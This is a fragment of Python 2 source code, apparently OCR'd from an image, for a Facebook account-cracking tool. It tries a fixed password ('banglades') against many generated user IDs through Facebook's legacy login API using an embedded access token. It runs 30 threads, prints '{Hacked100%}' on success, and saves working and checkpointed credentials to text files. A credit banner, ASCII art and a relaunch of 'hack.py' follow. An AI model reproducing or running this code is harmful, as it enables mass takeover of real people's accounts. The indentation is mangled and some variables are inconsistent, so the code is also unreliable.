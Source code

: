  					                cps.close()
 					                cpb.append(c+user+pass3)
                                                else:
 				                    pass4="banglades"
 				                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 				                    q = json.load(data)
 				                    if 'access_token' in q:
 				                        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass4+'\n'+"\n"
 				                        okb = open('save/successfull.txt', 'a')
 				                        okb.write(k+c+user+'-•◈•-'+pass4+'\n')
 				                        okb.close()
 				                        oks.append(c+user+pass4)
 				                    else:
 				                        if 'www.facebook.com' in q['error_msg']:
 					                        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass4+'\n'
 					                        cps = open('save/checkpoint.txt', 'a')
 					                        cps.write(k+c+user+'-•◈•-'+pass4+'\n')
 					                        cps.close()
 					                        cpb.append(c+user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;96m💖━━━━━━━━━━━━💘💘💘(MAFIA-KILLER-Talha)💘💘💘━━━━━━━━━━━💖" 
	print '[✓] Process Has Been Completed ....'
	print '[✓] Total OK/CP : '+str(len(successfull))+'/'+str(len(checkpoint))
	print('[✓] CP File Has Been Saved : save/checkpoint.txt')
	print"""
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ 🍃¸.🌸
🔮🌷*.*.¸¸¸¸.*.*.¸¸🌷🔮 　　┊　┊　┊
🔮🌷LOVE YOU🌷🔮 
　　┊　┊　┊
　　┊　┊    🔮   　　　
　　┊   🔮
　   🔮
(¯`🌹¯)🌷
`*.🍃.*´. 🌸🍃🌸:*¸. • 
¸.•´¸.•*¨) ¸🌹•*¨) 🌸 
🌸(¸.•´🍃(¸.•´ .•´ .🌸
	"""
	raw_input('\n[Press Enter To Go Back]')
	os.system('python2 hack.py')
		
if __name__ == '__main__':
	menu()
# Mau Ngapain Cuk?
# khan
Anas khan
